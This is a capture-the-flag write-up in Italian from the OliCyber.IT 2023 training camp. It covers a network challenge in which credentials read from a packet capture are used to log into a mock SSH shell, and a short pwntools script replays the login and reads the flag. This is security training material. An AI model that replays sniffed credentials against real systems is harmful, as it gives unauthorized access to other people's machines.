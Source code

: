 # OliCyber.IT 2023 - Simulazione training camp 2

## [network] SSH login (207 risoluzioni)

La challenge è una shell SSH fittizia. Viene allegato un pcap contenente un login.

### Soluzione

Nel pcap si legge facilmente l'username e la password di login.
Si può quindi collegarsi, analizzare il file system e trovare la flag come se fosse una vera shell.

### Exploit

```python
#!/bin/python3

import os
from pwn import *
import logging
logging.disable()

HOST = os.environ.get("HOST", "127.0.0.1")
PORT = int(os.environ.get("PORT", 34000))

conn = remote(HOST, PORT)
conn.sendline(b"gabibbo")
conn.sendline(b"p4ssw0rd_SSH_s3gr3t4")
conn.sendline(b"cd Desktop")
conn.sendline(b"cd olicyber")
conn.sendline(b"cd 2022")
conn.sendline(b"cd Olicyber_git_repository_2022")
conn.sendline(b"cd network_brutta")
conn.sendline(b"cat flag.txt")
data = conn.recvuntil(b"}").decode()
flag = "flag{"+data.split("flag{")[-1]

print(flag)
```
